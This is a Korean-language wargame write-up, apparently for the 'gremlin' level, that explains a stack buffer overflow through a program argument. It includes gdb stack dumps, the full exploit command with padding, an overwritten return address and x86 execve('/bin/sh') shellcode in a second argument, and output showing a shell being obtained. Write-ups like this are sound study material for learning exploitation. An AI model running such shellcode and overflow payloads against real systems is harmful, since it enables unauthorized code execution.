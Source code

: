 argv[1]을 이용하여 bof하기
===

# Core Principle

argv[1]이후의 위치에 쉘 코드를 넣고 ret에 쉘코드가 들어가 있는 위치를 넣어서 쉘 코드를 실행시킨다.

# Result

이 문제에서 버퍼의 크기가 256이므로 260만큼 더미를 넣어서 ret값을 바꾼다.

이 점을 이용해 2개의 입력값 중 앞에 있는 값은 264개의 더미를 넣고 뒤에 있는 값의 주솟값을 찾는다.

> (gdb)  r &#96;python -c "print 'A'*260+'BBBB'"&#96; &#96;python -c "print 'CCCC'*20"&#96;
>
> Breakpoint 1, 0x8048430 in main ()
>
> (gdb) x/100x $esp
>
>  &#126;중략 &#126;
>
> 0xbffffc4c:     0x41414141      0x41414141      0x41414141      0x41414141
>
> 0xbffffc5c:     0x41414141      0x42414141      0x00424242      0x43434343
>
> 0xbffffc6c:     0x43434343      0x43434343      0x43434343      0x43434343

저 실행때의 결과를 보고 0xbffffc6c로 좌표를 설정했지만 다시 확인 해 보았을 때는 0xbffffc5c가 적합해 보여서 5c로 바꾸었다.

> [gate@localhost gate]$ ./gremlin &#96;python -c "print 'A'*260 + '\x5c\xfc\xff\xbf' "&#96; &#96;python -c "print '\x90'*20+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' "&#96;
>
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\▒▒▒
>
> bash$ info
>
> info: Terminal type &#96;dumb' is not smart enough to run Info.
>
> bash$ my-pass
>
> euid = 501
>
> hello bof world
>
> bash$

위 처럼 쉘을 따는데 성공한 것을 볼 수 있다.

# Learned

> argv의 한 공간에 쉘코드를  넣어서도 쉘을 딸 수 있다.
>
> 슬라이드가 길었다면 좌표를 바꾸는 일은 하지 않았을 것이다. 앞으로는 충분히 긴 슬라이드를 이용하자.
